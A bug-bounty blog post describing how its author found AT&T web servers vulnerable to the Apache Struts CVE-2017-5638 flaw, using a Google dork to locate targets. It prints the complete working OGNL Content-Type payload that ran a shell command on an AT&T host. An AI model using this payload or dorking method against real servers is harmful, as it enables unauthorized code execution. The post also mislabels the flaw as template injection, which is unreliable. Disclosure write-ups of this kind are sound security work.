 ```yaml
---
layout: post
title: "Remote Code Execution in AT&T"
author: Corben Leo
---
```

I was pentesting AT&T to see if I could find a vulnerability (as one does), around 4-5 days after CVE-2017-5638 was released.   Apache Struts 2 2.3.x before 2.3.32 and 2.5.x before 2.5.10.1 is vulnerable to **Server-Side Template Injection**, which allows attackers to execute commands on any vulnerable server. Basically, the file upload interceptor for these vulnerable versions "attempted to resolve error messages using a potentially dangerous function that evaluates OGNL." It's not actually a vulnerability within the Jakarta request wrapper, but rather in the file upload interceptor. <br><br>
I instantly was curious about this vulnerability and went to see if AT&T ran Struts, so I started off with a simple Google dork: `site:att.com + ext:action` and *A LOT* of results came up! I grabbed a random one:  `https://www.att.com/tobrcontract/tobrinfotc.action`<br><br>
I opened up Burp Suite, intercepted the request and sent it to the Repeater. I added this payload in the content-type header to see if it was vulnerable:
```
Content-Type:%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).! (#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='uname -a').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```
I sent the request and to my surprise, the command executed!<br><br>
![Code Execution](/images/att-rce.png "RCE")
<br><br>
I was absolutely astounded that after a week of this 0day being released, that such a big company would still be vulnerable WHEN they had a security team and bug bounty program! I also identified a subdomain that was vulnerable.<br> All goes to show that if you are WORKING in information security, it would be smart to pay attention to the community and to the news so you can protect yourself.<br><br>
Regardless, that's how I could've pwned AT&T, which would have affected their hundreds millions of customers (<font color="#E22A3C">~147 million</font> wireless customers in the U.S. and Mexico).
<br><br>
Thanks for reading!<br><br>
**Corben Leo**
- <a class="link" href="https://twitter.com/hacker_"  target="_blank" rel="noopener noreferrer">https://twitter.com/hacker_</a>
- <a class="link" href="https://hackerone.com/cdl" target="_blank" rel="noopener noreferrer">https://hackerone.com/cdl</a>
- <a class="link" href="https://bugcrowd.com/c" target="_blank" rel="noopener noreferrer">https://bugcrowd.com/c</a>
- <a class="link" href="https://github.com/lc"  target="_blank" rel="noopener noreferrer">https://github.com/lc</a>

